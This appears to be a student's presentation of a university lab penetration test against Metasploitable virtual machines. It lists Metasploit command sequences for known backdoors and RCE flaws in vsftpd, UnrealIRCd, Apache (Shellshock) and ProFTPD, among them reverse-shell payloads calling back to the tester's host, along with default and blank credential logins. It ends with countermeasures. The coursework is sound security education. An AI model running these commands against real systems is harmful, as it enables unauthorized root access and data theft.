# Learning Café Penetration Test

## University of Winchester


Module: BS7204 Network Security and Penetration Testing
Lecturer: Rhys Lockley
Student ID: 1902008

<script type="module">
  import mermaid from 'https://cdn.jsdelivr.net/npm/mermaid@10/dist/mermaid.esm.min.mjs';
  mermaid.initialize({ startOnLoad: true });
</script>

---

## Presentation Overview

<!-- The presentation follows on from the report.
The report had 4 sections, the presentation is effectively sections 5 and 6. -->


1. Planning Phase
2. Discovery Phase
3. Attack Phase
4. Reporting Phase
5. Conclusion
6. Questions?
7. References

---

## Planning Phase


---

## Practical Evidence: Demonstration

<!-- This recording encompasses the activities taken throughout. -->

<script src="https://asciinema.org/a/45UBTj01G7Yf7Sz5dDxgh2iiN.js" id="asciicast-45UBTj01G7Yf7Sz5dDxgh2iiN" 
  async="true" 
  data-preload="true" 
  data-poster='npt:0:01' 
></script>

---

## Practical Evidence: Discovery Phase 1/3 - Address Range & Kali IP

<!-- First, find the IP of the Kali box and the network subnet range. -->

Find the IP of Kali VM & the network address range: `ip addr`.



<!-- Then, discover devices on the subnet. -->

Discover devices on the network: `nmap -sn 10.0.2.1/24`



---

## Practical Evidence: Discovery Phase 2/3 - Vulnerabilities (OpenVAS)

<!-- Ran an OpenVAS analysis on the whole network, took 3 hours. -->

OpenVAS scan results, summary & detailed:




---

## Practical Evidence: Discovery Phase 3/3 - Vulnerabilities (nmap)

<!-- A deep nmap scan of one target device - Metasploitable2 -->

`nmap` ports & services scan results:



---

## Practical Evidence: Attack Phase - 1 of 8 - vsftpd v2.3.4 Backdoor (root)

<!-- A total of 8 vulnerabilities were exploited, 6 gained root.  This exploits a backdoor in vsftpd v2.3.4 -->

Root access was obtained by exploiting a backdoor in vsftpd, version '2.3.4'.



<!-- 
```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.4
exploit
```
 -->

---

## Practical Evidence: Attack Phase - 2 of 8 - Samba (root)

<!-- The exploit leverages a scanning module in Metasploit. -->

Root access was obtained by exploiting Samba. Version '3.0.20-Debian' was identified, which is vulnerable to the username map script command execution exploit.



<!-- 
```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.0.2.4
run
```
 -->
---

## Practical Evidence: Attack Phase - 3 of 8 - Unreal IRCd v3.2.8.1 (root)

<!-- A backdoor exploitation. -->

Root access was obtained by exploiting a backdoor in unrealIRCd 'v3.2.8.1'.



<!-- 
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
show options
show payloads
set payload cmd/unix/reverse 
show options 
set rhosts 10.0.2.4 
set lhost 10.0.2.15 
exploit 
```
 -->

---

## Practical Evidence: Attack Phase - 4 of 8 - MySQL (root)

<!-- A different type of exploit.  The vulnerability is in the poor configuration of MySQl, in that the password for 'root' is blank! -->

No tools required. Default credentials were used, 'root:toor', failed. Tried 'root:null' (no password), success. Full access to all databases and tables.

```bash
mysql -u root -p -h 10.0.2.4 --ssl=off
```


<!-- 
```MySQL
SHOW DATABASES;
USE tikiwiki195;
SHOW TABLES;
SELECT * FROM tiki_users;
```
 -->

---

## Practical Evidence: Attack Phase - 5 of 8 - VNC Password Scanner (root)

<!-- A password scanner module was used and access gained.  Password was set, but weak and predictable, 'password' -->

Root access was obtained by exploiting a poorly configured VNC server. A password scanner module in Metasploite was used, attempting multiple passwords. Access was gained with a password of... 'password'.



<!-- 
```bash
search vnc login
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 10.0.2.4
exploit
vncviewer 10.0.2.4
```
 -->

---

## Practical Evidence: Attack Phase - 6 of 8 - Telnet (root)

<!-- Telnet traffic is sent in plan text & unencrypted, it should not be used. In this case, default password was used. -->

Root access was obtained by exploiting Telnet default credentials.

```bash
# default creds... msfadmin:msfadmin
telnet 10.0.2.4

# then switch to root...
sudo su -
```



---

## Practical Evidence: Attack Phase - 7 of 8 - Apache v2.4.7

<!-- A vulnerability in this version of Apache allowed a remote code execution.  This enabled a reverse TCP connection to be established.  Known as 'ShellShock' -->


Access was obtained by remote code execution (RCE) vulnerability in Apache 'v2.4.7'.


<!-- 
```bash
# Establish current status: local user on Kali machine
whoami
pwd
uname -a
# pause 1:38
# 98 - current user and machine details identified

# NIST Phase 2: Discovery
# Find information about the current network: address range
ip addr | awk '$1=="inet" && $3!="scope" {print $2}'
# pause 2:27
# 147 - IP address and subnet range found

# Find Target machines on the network
nmap -sn -oA nmap-subnet 10.0.2.1/24
grep Up nmap-subnet.gnmap | cut -d " " -f 2
# pause 3:52
# 232 - Found target machines on the network
# -sn: ping scan
# -oA: output all formats

# Target machine established. Gather information about the target machine.
sudo nmap -AO -sV -sS 10.0.2.6
# pause 3:59
# 239 - A deeper scan, on the target machine
# -sS: TCP SYN scan
# -sV: service version detection
# -AO: OS detection

# open ports found, services listed, software versions identified
# target: Apache
# pause 4:02
# 242 - Open ports and services found, versions identified. Target: Apache.

# NIST Phase 3: Attack
# start Metasploit
msfconsole
# pause 5:17
# 317 - Metasploit started, search for Apache exploit
search apache
search apache bash 
use 6
show options
# pause 5:59
# 359 - result 6 looks good, select it and show options
set RHOSTS 10.0.2.6
set TARGETURI /cgi-bin/hello_world.sh
exploit
# Now established a meterpreter shell as a user on the target machine
# pause 6:33
# 393 - exploit appears to be successful, a session has been started
sysinfo
getuid
# pause 7:08
# 428 - note "Ubuntu 14.04 (Linux 3.13.0-24-generic)"
```
 -->

---

## Practical Evidence: Attack Phase - 8 of 8 - ProFTPD v1.3.5

<!-- This version pf ProFTPD enables a remote code execution, enabling a payload to set up a reverse connection back to the Kali box -->

Access was obtained by remote code execution (RCE) vulnerability in ProFTPD 'v1.3.5'.



<!-- 
```bash
msfconsole
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set payload payload/cmd/unix/reverse_python
show options
set SITEPATH /var/www/html
set RHOSTS 10.0.2.6
set LHOST 10.0.2.15
run
```
 -->

---

## Practical Evidence: Reporting Phase 1/3 - Countermeasures

<!-- These are tactical countermeasures, quick wins. -->

| Vulnerability             | Countermeasure                                  |
| :------------------------ | :---------------------------------------------- |
| 1. vsftpd v2.3.4          | Upgrade to current version.                     |
| 2. Samba. Version '3.0.20 | Upgrade to current version.                     |
| 3. Unreal IRCd v3.2.8.1   | Upgrade to current version.                     |
| 4. MySQL                  | Replace blank password with secure pwd or keys. |
| 5. VNC                    | Replace weak password, or key-based             |
| 6. Telnet                 | Uninstall Telnet. Implement SSH.                |
| 7. Apache v2.4.7          | Upgrade to current version.                     |
| 8. ProFTPD v1.3.5         | Upgrade to current version.                     |

---

## Practical Evidence: Reporting Phase 2/3 - Secure Design



---

## Practical Evidence: Reporting Phase 3/3 - Secure Design

<!-- These are changes are strategic, requiring planning, resources, budget. -->

<div class="columns">
<div>

### Network

- Implement VLANs for segmentation.
- Remove public Wi-Fi, or isolate it.

</div>
<div>

### Systems

- Migrate from self hosted to professionally hosted cloud services.
- Regularly patch OSs, applications, databases, web servers, and services.
- Authentication: change from passwords to key based, `passkeys`:
  - supported by identity providers: Microsoft, Google, Apple.

</div>
</div>

---

## Conclusion

### Key Outcomes

- Identified critical vulnerabilities in network and application layers.
- Proposed actionable countermeasures for improvement.

### Next Steps

- Implement:
  - Countermeasures.
  - Secure design.
- Regularly review and update security practices.

---

## Thank You

### Questions?

---

## References

Computer Misuse Act (1990). Statute Law Database Available at: [https://www.legislation.gov.uk/ukpga/1990/18/contents](https://www.legislation.gov.uk/ukpga/1990/18/contents).

NIST (2014) NVD - cve-2014-6271. Available at: [https://nvd.nist.gov/vuln/detail/cve-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271).

NIST (2015) NVD - CVE-2015-3306. Available at: [https://nvd.nist.gov/vuln/detail/CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306).

Data Protection Act (2018). King’s Printer of Acts of Parliament Available at: [https://www.legislation.gov.uk/ukpga/2018/12/contents/enacted](https://www.legislation.gov.uk/ukpga/2018/12/contents/enacted).

Scarfone, K., Souppaya, M., Cody, A., and Orebaugh, A. (2021) NIST SP 800-115. NIST SP 800-115. Available at: [https://www.nist.gov/privacy-framework/nist-sp-800-115text](https://www.nist.gov/privacy-framework/nist-sp-800-115).
